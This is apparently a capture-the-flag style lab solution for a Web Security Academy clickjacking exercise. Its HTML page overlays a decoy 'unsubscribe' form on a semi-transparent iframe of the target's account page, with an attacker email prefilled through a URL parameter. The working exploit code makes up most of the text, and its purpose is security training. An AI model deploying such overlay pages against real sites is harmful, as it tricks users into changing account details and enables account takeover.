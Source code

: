 # Lab: Clickjacking with form input data prefilled from a URL parameter
## Description
By adding adding `?email=hacker@hack.com` to the iframe src url, the form will be filled automatically.

## Solution
```html
<head>
  <style>
    #target_website {
      position:relative;
      width:528px;
      height:600px;
      opacity:0.60001;
	  margin-bottom: 200px;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
	  top:400px;
	  left:45px;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>

<body>
	<div id="decoy_website">
		<p style="height: 25px;">Enter your email below to unsubscribe...</p>
		<input type="email" name="email" value="" style="height:30; width: 400px;">
		<br /><br /><br />
		<button style="width: 140px; height:25px;">Click here!</button>
	</div>
	<iframe id="target_website" src="https://target.web-security-academy.net/my-account?email=hacker@hack.com"></iframe>
</body>
```

